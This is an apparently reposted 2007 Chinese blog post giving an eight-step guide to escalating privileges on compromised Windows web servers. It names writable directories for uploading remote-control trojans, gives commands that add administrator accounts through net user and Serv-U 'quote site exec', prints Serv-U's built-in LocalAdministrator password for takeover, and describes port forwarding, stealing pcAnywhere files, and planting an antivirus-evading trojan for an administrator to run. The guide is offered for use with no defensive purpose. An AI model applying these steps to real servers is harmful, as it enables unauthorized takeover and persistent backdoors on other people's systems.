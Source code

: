 ```yaml
---
title: 如何提高提权效率
description: 一：检测一下网站的服务器是否开了3389远程终端二：检测一下服务是否用了serv-u(还有是什么版本的)方法一：复制一个网站用3389登陆器连接一下（是否成功）能连接了，拿下服务器的机率，提高30%了二：用ftp模式查下一个服务器的版本开始--运行--cmd--ftp加你要登陆的...
date: 2007-07-16 21:31:41
category: 技术文章
tags: ['技术类', '安全', '提权']
post_id: 73
alias: 73
ViewNums: 5489
---
```


转自:军团炎火

一：检测一下网站的服务器是否开了 3389 远程终端
二：检测一下服务是否用了serv-u （还有是什么版本的）
方法

一：复制一个网站 用 3389 登陆器连接一下 （是否成功）能连接了，拿下服务器的机率，提高 30%了
二：用ftp模式查下一个服务器的版本
开始 -- 运行 -- cmd -- ftp (加你要登陆的网站)
--------------------------------------------------------------------------------
第一步：最简单的方法
看有没有权限，能不能执行命令，行的话直接传个鸽子(随便什么远程控制木马都行,成功率极低.
--------------------------------------------------------------------------------
第二步：:寻找有执行的权限目录
c:\\winnt\\system32\\inetsrv\\data\\
c:\\Documents Ａnd Settings\\All Users\\
c:\\Program Files\\serv-u\\
C:\\Program Files\\Microsoft SQL Server\\
这样的目录可以直接上传鸽子，运行
-----------------------------------------------------------------------------------
第三步：传个cmd和开帐号的ftp.exe上去直接加帐号，命令就是你上传目录D:\\VMware Workstation\\cmd.exe \"net user love love /add\"
-----------------------------------------------------------------------------------
第四步：asp提权木马直接提权
serv-u 6.3 版本 好象用asp提权木马（不成功）
serv-u 6.2 版本 好象可以
不过提权能不能用asp木马还要看服务器，设置的变态不,假设直接用asp提权成功之后，还是不成功，但是可以在 cmd之下 用这个帐号连接一下ftp (加你提权的网站)
帐号：LocalAdministrator 密码：$ak#.1k;0@p\"〉#1@$ak#.1k;0@p
如果成功连接后就可以直接添加管理员帐号了
命令：quote site exec (你添加的帐号) net user 123 123 /ad
quote site exec （把帐号提升到最高权限） net localgroup administartors 123 /add
---------------------------------------------------------------------------------------
第五步：pcaanywhere
C:\\Documents Ａnd Settings\\All Users\\Application Data\\Symantec\\pcAnywhere\\
这里下他的GIF文件，在本地安装pcanywhere上去
---------------------------------------------------------------------------------------
第六步：serv-u覆盖提权
本地安装个su，将你自己的ServUDaemon.ini文件用从他那下载下来的ServUDaemon.ini
网上很多教程
----------------------------------------------------------------------------------------
第七步：Serv-U转发端口
给Latte加盐 曾经做个一个（serv-u经典提权全套教程）用到过这个方法，可以学习一下
上传个端口转发工具
命令：（工具名）&ndash;v &ndash;l 3333 &ndash;r 43958 127.0.0.1
意思是将3333端口映射到43958端口上。 然后就可以在本地安装一个Serv-u，新建一个服务器，IP填对方IP，帐号为LocalAdministrator 密码为$ak#.1k;0@p\"〉#1@$ak#.1k;0@p
连接上后你就可以管理他的Serv-u了
-----------------------------------------------------------------------------------------
第八步：社会工程学之提升提权
把灰鸽子传到上面，然后转移到c盘，就等着管理员运行了，前提你的鸽子必须免杀让我看到一个不清楚的exe程序，老想点开看看，呵呵（方法比较笨）